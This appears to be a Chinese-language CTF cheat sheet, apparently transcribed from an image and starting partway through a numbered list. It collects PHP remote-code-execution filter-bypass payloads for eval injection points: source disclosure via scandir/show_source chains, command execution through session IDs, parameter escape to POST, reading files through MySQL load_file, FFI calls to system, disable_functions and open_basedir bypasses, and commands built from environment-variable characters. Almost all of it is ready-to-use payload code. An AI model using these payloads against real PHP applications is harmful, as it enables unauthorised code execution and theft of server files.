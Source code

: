 ```php
eval("('phpinfo')()?>");

b.使用语言结构:echo print isset unset $_GET[1]
8.c=show_source(next(array_reverse(scandir(pos(localeconv())))));//不过滤括号和分号时的通解
localeconv()//函数返回一包含本地数字及货币格式信息的数组。而数组第一项就是. =>为了拿到.
pos()/current()//函数返回数组第一个值 =>拿到.
scandir(".")//这个函数的作用是扫描当前目录
//顺序是array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(7) "flag.py" [3]=> string(9) "index.php" }
array_reverse()//数组颠倒
next()//将数组指针一项下一位
show_source()//读取函数内容
9. c=session_start();system(session_id());
PHPSESSID=ls
10.c=eval(pos(next(get_defined_vars())));//注意必须要有2个eval
post:1=phpinfo();//实现参数逃逸到POST
11.过滤引号
$_GET[a]字母是可以不加引号的
12.位运算构造绕过正则,但要在eval等能执行php代码的函数里面才能执行位运算，system不行
13.通过重命名或复制绕过文件读取(注意要有权限)
cp flag.php a.txt//再访问a.txt
14.通过phpinfo查看禁用函数，再fuzz。(参数逃逸无效，因禁用是全局的)
文件读取函数：readfile,file_get_content,highlight_file,show_source
目录搜索：var_dump(scandir('.'))
文件包含+伪协议或$flag：include,require($_GET[1]) 
执行shell命令：exec,system,shell_exec,passthru
包含后读取变量：echo $flag;var_dump(get_defined_vars()/$GLOBALS)
重命名和复制：rename,copy
15.缓冲区替换绕过：
$s = ob_get_contents();//output buffer
ob_end_clean();
echo preg_replace("/[0-9]|[a-z]/i","?",$s);
绕过方法：
中断:exit,die
16.glob协议进行目录扫描(遇到权限限制open_basedir restriction时)
c=$a="glob:///*.txt";//定义路径
if($b=opendir($a)){
    while(($file=readdir($b))!==false){//如果它不是目录
        echo "filename:".$file."\n";
    }
    closedir($b);
}
uaf脚本绕过安全目录(利用php的垃圾回收机制漏洞)(记得url编码)
17.调用其他应用如mysql来访问文件
c=try {
    $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');
    foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}
    catch (PDOException $e) {echo $e->getMessage();exit(0);}
    exit(0);
18.蚁剑绕过disabled functions
19.FFI，php7.4以上才有
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
20.环境变量取字母拼接命令
//$PATH最后一位是n：/bin
${PATH:~0}
${PATH:~A}//0和字母均代表最后一位
//$PWD最后一位是l:/var/www/html
${HOME}
${PATH:~A}${PWD:~A}${IFS}????.???//flag.php
${PHP_VERSION:${PHP_VERSION:~A}:~${SHLVL}}//3
```